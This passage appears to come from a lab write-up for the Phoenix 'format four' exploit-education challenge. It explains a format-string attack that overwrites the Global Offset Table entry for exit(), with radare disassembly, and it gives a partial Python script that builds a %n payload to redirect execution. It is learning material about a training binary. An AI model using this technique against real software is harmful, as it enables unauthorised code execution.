 However, instead, we will be overwriting the Global Offset Table to gain code execution. This is based on [Phoenix format 4](https://exploit.education/phoenix/format-four/).

### **Analysing the GOT flow**

The program looks something like this:

```
printf(user_input);
exit(0);
```

Looking at it in radare, this is what the call to the exit function looks like:

```
0x080484fe b    e82dfeffff     call sym.imp.exit   ; void exit(int status);
```

If we step into that call, the execution goes to this line:

```
0x08048330      ff25e4970408   jmp dword [reloc.exit_228]  ; "C......." @ 0x80497e4
```

Which will jump to the address specified at the address `reloc.exit_228`

```
pf x @reloc.exit_228
0x080497e4 = 0xf7f7f543
```

And indeed, stepping once further, we end up at the address 0xf7f7f543.

So if we could change the value at the address 0x080497e4 to some other address (in the phoenix challenge, to 0x08048503) , then the execution flow will jump to that other address.

### **Solution**

Changing the code from “writing arbitrary values to arbitrary addresses” slightly, I arrived at the following solution:

```
#!/usr/bin/python3

import sys

address1 = b"\x08\x04\x97\xe4"[::-1] 
address2 = b"\x08\x04\x97\xe5"[::-1] 
address3 = b"\x08\x04\x97\xe6"[::-1] 
address4 = b"\x08\x04\x97\xe7"[::-1] 

buf = b''
buf += address1
buf += b'AAAA' # Add space for extra padding using %1234p or whatever
buf += address2
buf += b'BBBB' # Add space for extra padding 
buf += address3
buf += b'CCCC' # Add space for extra padding
buf += address4

# Value we want to write: 0x08048503
buf += b'%p ' * 10 # Get to the start of the buffer
buf += b'%153p ' # Add extra bytes to %n. It will go to 0x103. 
buf += b'%n '  # Write the first byte - 0x03. The first 0x1 in the 0x103 will be overwritten later and 0x03 will stay.
buf += b'%128p ' # Add extra bytes to %n. It will go to 0x185.
buf += b'%n '  # Write the second byte - 0x85
buf += b'%125p ' # Add extra bytes to %n. It will go to 0x204.
buf += b'%n '  # Write the third byte - 0x04
buf += b'%258p ' # Add extra bytes to %n. It will go to 0x208.
```